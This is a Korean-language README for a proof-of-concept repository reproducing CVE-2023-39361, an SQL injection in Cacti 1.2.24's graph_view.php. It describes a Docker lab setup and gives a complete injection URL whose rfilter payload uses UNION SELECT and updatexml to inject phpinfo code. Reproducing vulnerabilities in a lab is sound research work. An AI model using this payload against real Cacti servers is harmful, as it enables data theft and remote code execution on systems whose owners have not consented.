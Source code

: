 # CVE-2023-39361 - Cacti SQL Injection PoC

## 🔍 개요
이 저장소는 Cacti 1.2.24 버전의 `graph_view.php` 파일에서 발생하는 SQL Injection 취약점(CVE-2023-39361)을 재현하기 위한 PoC입니다. 이 취약점은 `rfilter` 파라미터가 부적절하게 필터링되며, 공격자가 임의의 SQL 쿼리를 삽입해 데이터베이스 정보를 유출할 수 있게 됩니다.

## ⚙️ 환경 구성
PoC는 Docker 및 Docker Compose를 사용하여 구성됩니다. 아래 명령어를 통해 재현 환경을 빠르게 구성할 수 있습니다.

```bash
docker compose up -d 
```

### 📁 주요 파일 설명
- `docker-compose.yml`: 웹 서버 및 MySQL 데이터베이스 컨테이너를 구성합니다.
- `entrypoint.sh`: Apache 서버를 실행하고 Cacti 초기 설정을 도와주는 스크립트입니다.

## 🧪 취약점 재현 방법

### 1. 브라우저로 접속
```
http://localhost:8080
```

Cacti 설치 페이지가 나타나며, DB 정보는 아래와 같이 설정되어 있습니다:
- DB Host: db
- DB User: cacti
- DB Password: cacti

설치를 완료한 뒤 로그인 화면으로 이동합니다.

### 2. phpinfo 통한 원격 코드 실행 테스트 
```
http://localhost:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

이 요청을 통해 내부 phpinfo 코드가 삽입되어 실행되며, 로그인 화면이 phpinfo 페이지처럼 변경되는 것을 확인할 수 있습니다.


## 🛡️ 영향 범위
- Cacti 1.2.24 이하 버전에서 영향을 받습니다.
- 인증 없이 익스플로잇 가능하며, SQL Injection을 통해 인증 우회 및 원격 코드 실행까지 가능합니다.

## 📚 참고
- https://nvd.nist.gov/vuln/detail/CVE-2023-39361
- https://github.com/vulhub/vulhub/tree/master/cacti/CVE-2023-39361

---


